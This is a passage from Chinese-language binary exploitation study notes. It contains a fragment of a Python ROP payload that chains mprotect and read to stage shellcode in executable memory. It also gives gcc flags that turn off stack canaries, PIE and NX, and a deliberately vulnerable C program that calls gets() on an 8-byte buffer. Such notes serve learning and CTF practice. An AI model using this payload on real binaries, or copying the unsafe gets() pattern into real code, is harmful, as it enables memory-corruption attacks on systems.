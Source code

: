 ```python
payload_01 += p32(mem_proc)   #mprotect函数参数3 修改的权限

payload_01 += p32(read_addr) #执行完pop3_ret后弹到read地址

payload_01 += p32(pop3_ret)  #执行完read后将返回到pop3_ret指令,又继续使esp+12

#read 的三个参数
payload_01 += p32(0)     #read函数参数1 ,从输入端读取
payload_01 += p32(mem_addr)   #读取到的内容复制到指向的内存里
payload_01 += p32(0x100) #读取大小

payload_01 += p32(mem_addr)   #执行完read后ret esi

```

### 编译与执行

https://blog.csdn.net/qq_43430261/article/details/105516051

程序执行顺序 start => \_\_libc_start_main(main 函数是从这里被 call 的), 所以 stack 有 lib_c_start_main+231 的 ret addr

#### 关闭 canary 等 保护机制

    gcc test.c -fno-stack-protector -o bof
    gcc test.c -fno-stack-protector -no-pie -o bof
    gcc fmt.c -fno-stack-protector -Wno-format-security
    gcc test.c -fno-stack-protector -no-pie -z execstack -o ret2sc
        -z execstack, 归根到底就是要让你这段shellcode所放的内存有执行的权限

```c
# include <stdio.h>
    int main(){
    char buffer[8];
    gets(buffer);//Input
    puts(buffer);//0utput
return 0;
```

| stack          | description  |
| -------------- | ------------ |
| ...            | low address  |
| buffer         |
| ...            |
| saved rbp      |
| return address |
| ...            | high address |

输入一长串 a 后
